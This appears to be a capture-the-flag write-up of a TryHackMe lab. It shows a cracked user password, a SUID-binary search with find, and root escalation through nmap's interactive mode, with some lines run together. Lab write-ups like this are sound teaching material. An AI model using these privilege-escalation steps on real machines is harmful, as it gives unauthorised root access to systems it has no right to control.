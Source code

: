 I cracked it and get the message :

abcdefghijklmnopqrstuvwxyz #robot password

####  Privileges escalation

As you can see, when I tried to catch the key-2-of-3.txt I got : Permission denied. That mean that I must be root to do it. So, now I have to find a way to get root.

![image](https://imgur.com/37RDyTP.png)
```
robot@linux:~$ ls
ls
key-2-of-3.txt  password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$$
```
***Final step getting root on the machine***

On the TryHackMe website the hint was “nmap”

So i found this website https://pentestlab.blog/category/privilege-escalation/ and it worked ! :D

daemon@linux:/home/robot$ su robot\
su robot\
Password: abcdefghijklmnopqrstuvwxyz\

### To find the root process 
find / -perm +6000 2>/dev/null | grep '/bin/'*\
/bin/ping  \
/bin/umount\
/bin/mount\
/bin/ping6\
/bin/su\
/usr/bin/mail-touchlock\
/usr/bin/passwd\
/usr/bin/newgrp\
/usr/bin/screen\
/usr/bin/mail-unlock\
/usr/bin/mail-lock\
/usr/bin/chsh\
/usr/bin/crontab\
/usr/bin/chfn\
/usr/bin/chage\
/usr/bin/gpasswd\
/usr/bin/expiry\
/usr/bin/dotlockfile\
/usr/bin/sudo\
/usr/bin/ssh-agent\
/usr/bin/wall\
/usr/local/bin/nmaprobot@linux:/$ nmap --interactive\
*
+ nmap --interactive## After some investigation on forum I found there is a weakness in Nmap, which you can be setting up into interactive mode. That allows to run shell commands inside of nmap.Starting nmap V. 3.81 ( http://www.insecure.org/nmap/ )
Welcome to Interactive Mode -- press h <enter> for help
